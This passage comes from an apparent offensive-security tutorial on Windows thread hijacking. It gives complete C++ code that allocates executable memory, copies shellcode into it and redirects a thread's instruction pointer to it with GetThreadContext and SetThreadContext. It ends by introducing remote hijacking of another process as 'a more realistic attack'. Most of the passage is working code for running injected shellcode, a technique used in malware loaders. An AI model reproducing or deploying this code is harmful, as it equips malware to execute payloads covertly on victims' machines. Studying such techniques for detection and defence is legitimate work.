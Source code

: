 ```cpp
  if (!GetThreadContext(hThread, &context)) {
          printf("GetThreadContext failed with error %x", GetLastError());
  }
```

After we got the context successfully, we update the `Rip` with the memory address of our shellcode:

```cpp
context.Rip = reinterpret_cast<DWORD64>(pMemory);
```

Then we set the context again of the thread using `SetThreadContext`

```cpp
    if (!SetThreadContext(hThread, &context)) {
        printf("SetThreadContext failed with error %x", GetLastError());
    }
```

**Complete code**:
```cpp
BOOL HijackThread(IN HANDLE hThread,IN PBYTE pAddress,IN SIZE_T dwSize) {

    CONTEXT context = {};

    context.ContextFlags = CONTEXT_CONTROL;

    PVOID pMemory = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    if (pMemory == NULL) {
            printf("VirtualAlloc failed with error %x", GetLastError());
    }

        memcpy(pMemory, pAddress, dwSize);

    if (!GetThreadContext(hThread, &context)) {
            printf("GetThreadContext failed with error %x", GetLastError());
    }

    context.Rip = reinterpret_cast<DWORD64>(pMemory);

    if (!SetThreadContext(hThread, &context)) {
        printf("SetThreadContext failed with error %x", GetLastError());
    }

    return TRUE;
}
```

# Remote Hijack - Creating a new process

What we've explained above was local hijacking, but a more realistic attack would be remote thread hijacking.
